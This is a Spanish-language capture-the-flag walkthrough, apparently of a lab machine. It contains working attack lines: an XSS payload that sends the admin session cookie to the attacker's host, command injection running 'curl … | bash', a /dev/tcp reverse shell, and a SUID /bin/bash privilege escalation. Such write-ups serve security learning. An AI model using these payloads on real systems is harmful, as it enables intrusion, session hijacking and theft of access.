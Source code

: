 
Primero realzaremos un escaneo de puertos con nmap.
`sudo nmap -sV -sC --min-rate 7000 -p- -Pn 10.10.11.8 -oN escaneo`
<img src="Pasted image 20240424100119.png">

Seguidamente al ver que esconde el puerto 5000, para ello introducimos la ip seguida de dos puntos con el puerto.
<img src="Pasted image 20240424100249.png">

Vemos que esconde una web. Para ello haremos un fuzzing con dirsearch.
`dirsearch -u http://10.10.11.8:5000/`
<img src="Pasted image 20240424100701.png">

Entraremos a ver que esconde la pagina support.
<img src="Pasted image 20240424100826.png">

Veamos que tiene un formulario, veremos que hace si se lo rellenamos todo.
<img src="Pasted image 20240424101018.png">

Que hay un overflow, cuando sucede esto, podemos atacarlo con XSS. Para ello abriremos burpsuite para interceptar la petición al servidor.
<img src="Pasted image 20240424101405.png">

Una vez no tenemos, volveremos a nuestra consola, y abriremos un servidor python para que nos mande la cookie de sesión de administrador a nuestra máquina.
`python3 -m http.server 80`
<img src="Pasted image 20240424101532.png">

Una vez estamos a la escucha, volveremos al burpsuite y pondremos la siguinte sintaxis de JavsScript en "User Agent" y en el el mensaje de abajo. 
`<img src=x onerror=fetch('http://10.10.14.68/?c='+document.cookie);>`
<img src="Pasted image 20240424101911.png">

Lo mandaremos al repeter y lo enviaremos al rervidor, si todo va bien, en menos de un minuto nos tiene que dar la cookie de sesión en el servidor python.
<img src="Pasted image 20240424102247.png">
Al ver este mensaje, es buena señal, así que iremos la consola y esperaremos un minuto.
<img src="Pasted image 20240424102342.png">

Nos guardaremos la cookie para luego poder suplantarla. Cerraremos el burpsuite y volveremos a la paguina inicial de la web. Retomando el fuzzing de antes, a parte de suport, teniamos una página llamada dashboard, entraremos en ella.
<img src="Pasted image 20240424102646.png">

Nos sale que no estamos autorizados, pero no hay problema porque tenemos la cookie de administrador, asi que solo nos queda suplantarla. Para ello iremos a inspeccionar --> storage.
<img src="Pasted image 20240424102839.png">

Alli pegamos la nueva cookie en la que hay, de tal forma que se sobreescriba.
<img src="Pasted image 20240424102927.png">

Reiniciaremos la página. Y veremos la página al 100%, ahora intentaremos poder conseguir la shell del servidor, para ello vamos a interceptar la peticion con burpsuite.
<img src="Pasted image 20240424103730.png]]

Irmos al la consola y crearemos un harchivo html con contenido bash para poder ejecutar una reverse shell en el servidor.
`#!/bin/bash`
`sh -i >& /dev/tcp/10.10.14.68/4444 0>&1`
<img src="Pasted image 20240424103933.png">

Una vez lo tengamos, volveremos a encender un servidor python para poder hostear el archivo.
<img src="Pasted image 20240424104216.png">

Abriremos otro terminal y nos pondremos a la escucha con netcat en el puerto que hemos elegido.
`nc -lvnp 4444`
<img src="Pasted image 20240424104342.png">

Una vez lo tenemos, iremos al burpsuite y en date pondremos un ";" y pondremos el siguiente comando , lo mandaremos al repeter y lo enviaremos, con esto tendremos la shell.
`curl 10.10.14.68/index.html | bash`
<img src="Pasted image 20240424104600.png">
<img src="Pasted image 20240424104625.png">
Si al darle a enviar el botón send se nos pone de color gris, sera buena señal porque tendremos la shell.
<img src="Pasted image 20240424104714.png">
En el dolar escribiremos el siguiente comando para ver la ruta.
`script /dev/null -c bash`
<img src="Pasted image 20240424104823.png">

Con esto ya estaremos dentro, ahora buscaremos la flag de usuario.
<img src="Pasted image 20240424105032.png">

Una vez la tenemos, solo nos quedará escalar privilegios, para ello vermos que binarios tienen permiso de root. 
`sudo -l`
<img src="Pasted image 20240424105222.png">

Vemos que tiene este binario con permisos de administrador. Miraremos el contenido del binario para ver si obtenemos una pista.
`strings /usr/bin/syscheck`
<img src="Pasted image 20240424105522.png">

Vemos que tiene un archivo bash, le añadiremos el script `chmod u+s /bin/bash` dentro de el archivo para poder ejecutar lo que queramos. Para ello haremos:
`echo "chmod u+s /bin/bash">initdb.sh`
<img src="Pasted image 20240424110607.png">

Seguidamente, le daremos permisos al archivo bash y lo ejecutaremos.
<img src="Pasted image 20240424110733.png">

Finalmente lo ejecutaremos.
`./initdb.sh`
<img src="Pasted image 20240424111034.png">
Finalmente ejecutaremos un comando mas para tener acceso root.
`/bin/bash -p`
<img src="Pasted image 20240424111222.png">
